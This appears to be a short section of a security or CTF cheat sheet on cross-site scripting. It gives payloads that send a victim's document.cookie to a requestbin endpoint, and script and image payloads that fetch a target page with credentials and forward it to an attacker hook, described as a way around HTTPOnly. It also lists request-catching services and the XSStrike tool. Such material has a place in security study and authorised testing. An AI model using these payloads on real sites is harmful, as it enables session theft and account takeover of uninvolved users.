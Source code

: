 

The **XSS** vulnerability occurs when a user can control the content of a web page. A malicious code can be used to steal cookies of authentified users, redirect the user to a malicious site, or even execute arbitrary code on the user's machine.

Exemple of XSS :

```html
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```

These sites can be used to create hooks to catch HTTP requests:

| Site |
| --- |
| [`requestb.in`](https://requestb.in/) |
| [`hookbin.com`](https://hookbin.com/) |


* `XSS Cheat sheet` - [CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

* `Filter Evasion` - [CheatSheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

	Bypass XSS filters.

* `HTTPOnly cookie flag`

	When the `HTTPOnly` flag is set, the cookie is not accessible by JavaScript. This can be bypassed by using the target's browser as a proxy to recieve the cookie when it is sent to the victim's browser:

	```html
	<!-- With the script tag -->
	<script>
	fetch("https://target-site.url/")
	.then((data) => fetch("https://<myHook>/?/=".concat(JSON.stringify(data)), { credentials: 'include' }));
	</script>

	<!-- With an image -->
	<img src="https://target-site.url/" onerror="fetch('https://<myHook>/?/='+JSON.stringify(this), { credentials: 'include' })">
	```



* `XSStrike` - [GitHub](https://github.com/UltimateHackers/XSStrike)

	A python CLI tool for XSS detection and exploitation.



<br><br>

# Miscellaneous
